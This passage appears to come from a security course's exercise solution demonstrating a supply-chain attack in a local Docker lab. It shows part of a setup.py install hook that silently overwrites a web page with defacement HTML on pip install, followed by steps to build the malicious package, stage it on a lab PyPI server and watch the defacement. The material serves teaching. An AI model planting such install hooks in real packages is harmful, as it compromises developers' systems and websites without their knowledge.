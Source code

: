 ```python
                with open(backup_file, "wb") as fdst:
                    fdst.write(data)
            
            # Overwrite the target file
            os.makedirs(os.path.dirname(target_file), exist_ok=True)
            with open(target_file, "w", encoding="utf-8") as f:
                f.write(HACKED_HTML)
        except Exception:
            pass
        super().run()
```

## Building the Malicious Package

```bash
cd w2d3/exercises/ex4/solution/malicious-packages/flowernet
python3 setup.py sdist
```

This creates `dist/flowernet-0.0.5.tar.gz`.

## Staging the Attack

Copy the malicious package to the exercise's PyPI server:

```bash
cd w2d3/exercises/ex4
mkdir -p exercise/packages
cp solution/malicious-packages/flowernet/dist/flowernet-0.0.5.tar.gz exercise/packages/
```

## Running the Environment

```bash
cd w2d3/exercises/ex4/exercise
docker-compose up --build
```

The environment includes:
- **Web Container**: Flask app serving the flower shop (mounts `src/` to `/app`)
- **PyPI Server**: Serves packages from `./packages` on `http://pypi-server:8080/simple`
- **Developer Simulator**: Continuously downloads packages in rotation

## What You Should See

1. **Developer Activity**: Watch the terminal output showing commands like:
   ```
   Developer downloading: pip install FlowerNet --index-url http://pypi-server:8080/simple --trusted-host pypi-server
   ✓ Package downloaded successfully: FlowerNet
   ```

2. **Attack Success**: When the developer downloads `FlowerNet`, the malicious `flowernet` package is installed and the homepage is immediately defaced.
